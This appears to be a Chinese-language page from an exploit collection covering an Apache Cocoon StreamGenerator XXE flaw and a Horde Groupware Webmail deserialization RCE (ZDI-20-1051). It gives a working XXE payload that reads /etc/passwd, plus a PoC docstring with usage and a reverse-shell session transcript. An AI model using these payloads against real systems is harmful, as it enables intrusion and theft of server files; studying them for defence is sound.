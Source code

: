 > 来源:http://mail-archives.apache.org/mod_mbox/cocoon-users/202009.mbox/author

>程序使用了StreamGenerator这个方法时,解析从外部请求的xml数据包未做相关的限制,恶意用户就可以构造任意的xml表达式,使服务器解析达到XML注入的安全问题。

```angular2
1、漏洞利用条件有限必须是apacheCocoon且使用了StreamGenerator,也就是说只要传输的数据被解析就可以实现了。

2、为了大饱眼福老大哥们,小编自己写了整了一个环境。
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>John</firstName> 
<lastName>&ent;</lastName>
</userInfo>
```
![](images/hvv_19.png)

### Horde Groupware Webmail Edition 远程命令执行

> 来源: https://srcincite.io/pocs/zdi-20-1051.py.txt

```angular2
#!/usr/bin/env python3
"""
Horde Groupware Webmail Edition Sort sortpref Deserialization of Untrusted Data Remote Code Execution Vulnerability

Identifiers: ZDI-CAN-10436 / ZDI-20-1051
Found by ..: mr_me
Tested on .: Horde Groupware Webmail 5.2.22 (pear installation) on Debian 9 Stretch w/ Apache/2.4.25 & PHP 7.0.33

Summary:
========

It's possible to reach a deserialization of untrusted data vulnerability within the constructor of the IMP_Prefs_Sort class. A low privileged authenticated attacker can leverage this to achieve remote code execution.

Example:
========

saturn:~ mr_me$ ./poc.py 
(+) usage ./poc.py <target> <path> <user:pass> <connectback:port>
(+) eg: ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337

saturn:~ mr_me$ ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337
(+) targeting http://172.16.175.145/horde/
(+) obtained session iefankvohbl8og0mtaadm3efb6
(+) inserted our php object
(+) triggering deserialization...
(+) starting handler on port 1337
(+) connection from 172.16.175.145
(+) pop thy shell!
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/horde/services
uname -a
Linux target 4.9.0-11-amd64 #1 SMP Debian 4.9.189-3+deb9u1 (2019-09-20) x86_64 GNU/Linux
exit
*** Connection closed by remote host ***
(+) repaired the target!
"""

```
